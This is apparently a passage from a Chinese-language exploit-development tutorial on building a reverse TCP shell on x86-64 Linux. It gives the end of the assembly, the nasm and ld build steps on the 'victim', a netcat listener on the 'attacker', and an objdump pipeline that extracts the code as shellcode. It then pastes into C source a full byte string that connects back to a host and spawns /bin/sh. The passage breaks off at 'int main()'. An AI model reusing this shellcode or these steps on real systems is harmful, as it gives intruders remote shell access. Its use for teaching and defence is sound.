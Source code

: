 ```
    push rdi
    mov rsi,rsp
    add rax, 59
    syscall
```

让我们将其汇编和链接到我们的受害者机器上：

```
$ nasm -felf64 reverse-tcp.nasm -o reverse-tcp.o
$ ld reverse-tcp.o -o reverse-tcp
```

然后，在我们的攻击者机器上运行以下命令：

```
$ nc -lp 1234
```

然后，再回到我们的受害者机器并运行我们的代码：

```
$ ./reverse-tcp
```

然后，在我们的攻击者机器上，我们连接到了受害者机器（Ubuntu）：

![](img/00220.gif)

现在，让我们将其转换为一个 shellcode：

```
$ objdump -M intel -D reverse-tcp | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-7 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\\x/g' | paste -d '' -s
```

前面命令的输出显示在以下截图中：

![](img/00221.jpeg)

让我们将这个机器语言复制到我们的 C 代码中：

```
#include<stdio.h>
#include<string.h>

unsigned char code[] =

"\x48\x31\xc0\x48\x83\xc0\x29\x48\x31\xff\x48\x83\xc7\x02\x48\x31\xf6\x48\xff\xc6\x48\x31\xd2\x0f\x05\x48\x89\xc7\x48\x31\xc0\x68\xc0\xa8\xee\x01\x66\x68\x04\xd2\x66\x6a\x02\x48\x89\xe6\x48\x31\xd2\x48\x83\xc2\x10\x48\x31\xc0\x48\x83\xc0\x2a\x0f\x05\x48\x31\xc0\x48\x83\xc0\x21\x48\x31\xf6\x0f\x05\x48\x31\xc0\x48\x83\xc0\x21\x48\xff\xc6\x0f\x05\x48\x31\xc0\x48\x83\xc0\x21\x48\xff\xc6\x0f\x05\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05";

int main()
```